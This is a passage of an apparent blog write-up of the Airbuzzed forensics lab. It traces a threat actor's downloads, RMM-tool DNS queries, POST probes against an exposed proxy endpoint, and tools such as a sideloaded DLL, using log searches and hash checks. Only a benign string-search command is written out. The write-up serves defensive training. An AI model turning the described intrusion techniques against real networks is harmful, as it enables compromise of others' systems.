Thus far, we've seen about the triages across all the devices within the Airbuzzed network. The next thing to see is the external infrastructure that the internal devices were communicating with. 

We firmly know that the first device was ABZ-PC-01 coming in contact with a server that belongs to the Threat Actor. And the domain in question might've already been seen in the earlier part of the lab. 

For instance, from Section 2c: in DLL Sideloading, we've seen various Invoke Web-Request commands done to a 'downloadmirror.net' from ABZ-PC-01. Filtering out the ELK logs to this domain, in that first day, June 19th, when Quiz.rar was downloaded. 

Across the logs, its IP and the relevant domain name was filtered. 

The next thing to look up was DNS queries of a RMM tool. So far, in the lab, we came across the TacticalRMM tool as being the one used in the attack. 

When looking at it on ZUI, we can see its attached DNS query. 

Lastly, the last portion of this section revolves around the ABZ-PRX-01 server. Since trying to understand the network configuration, we have not seen much about this server. The lab guides us in showing that various POST requests were made to ABZ-PRX-01, in the hopes of exploiting a test endpoint. Why is this useful?

We know that the threat actor's IP address is an untrusted one. Yet, they attempt to make POST requests to `/testing`. The threat actor is hoping that this is a vulnerable or exposed route, to possibly conduct Remote Code Execution and other things possible against that NGINX Proxy server. The `/testing` is indeed exposed in the ABZ-PRX-01 server, as the logs indicate their presence in the log values. 

And that concludes this section of Dissecting the Network Logs. 

#### Section 2j: Mapping the Infrastructure 
Although we explored ABZ-APP-01 with a C2 process sample running in it; (pid 55773), one more thing to look at is its OS kernel build number. 

Looking into the ELK logs, we can see it's of the value 5.10.0-29. 

*Possibly*, it might have been of interest late in the lab as it's not *the* latest kernel build number in June 2024, when the attack happened. While it does have Long-Term Support, it could've lacked newer security hardenings, and features that were added into newer kernel models. 

That concludes this segment of the lab: Mapping the Infrastructure. 

#### Section 2k: Threat Actors' Arsenal

In this section, we're investigating deeper into the files that are suspected of having threat actor origins, and extra details about them. Starting first, with this Process 55773. Given that it is of a C2 origin, then chances are, it might've been communicating with a certain domain. To investigate that, the best route is to see the triage about it that's been collected under ABZ-APP-01. 

When looking at its triage, and unzipping the original strings.txt.gz, a strings.txt file is formed. By default, when looking at other processes in the same directory, a strings folder is not there. The existence of this means that all readable strings from a binary were put together here, and it can contain IOC clues, so perhaps the domain the process was meant to speak to. 

After extracting the text file with 7-Zip, the best tool that helped decipher the domain was SysInternal's string.exe.

After copying it over to the Desktop, and changing the cmd directory to the SysInternal toolkit, with this command: `strings.exe C:\Users\PhotonUser\Desktop\strings.txt | findstr /i "http"`, some interesting results appear. 

This github link becomes known, and could have been the link APP-01 was directed to talk to. 

Following that, the next artifact to look into came from the origin file, Quiz.rar. Within the folder, there's a suspicious cat.jpg file. Within the lab's toolkit, pestudio could assist here in finding out its imphash. 

While it hadn't been the most accurate flag, another way to solve this is through the file's SHA256 value. A handy command in Powershell helped here to see if it's the same value that pestudio reflected. Credits to this [other writeup](https://mashtitle.com/2025/06/09/airbuzzed-write-up) for teaching this stellar trick.

After noting that these two match, the next step is to check its imphash from VirusTotal. 

Another suspicious package was also indicated by the lab, but not heavily seen until now. That is called `extract.exe`. When looking through the logs related to the package, it was downloaded into PC-01 through an Invoke-WebRequest command line, and set in the Temp folder we've seen most threat actor tools sit at. 

Finally, the last threat actor tool of interest is the one from the earlier section, in DLL sideloading: 354465_SB_SMBUS_SDK.dll. It had another name in the time it was based in the Temp folder of ABZ-PC-01. 

It's a known malicious DLL used by attackers to execute PowerShell commands more stealthily, and isn't all that normal in legitimate Windows Operations. 

##### And that concludes this portion on Threat Actor's Arsenal and the entire Airbuzzed Lab! Thanks for reading this far ~

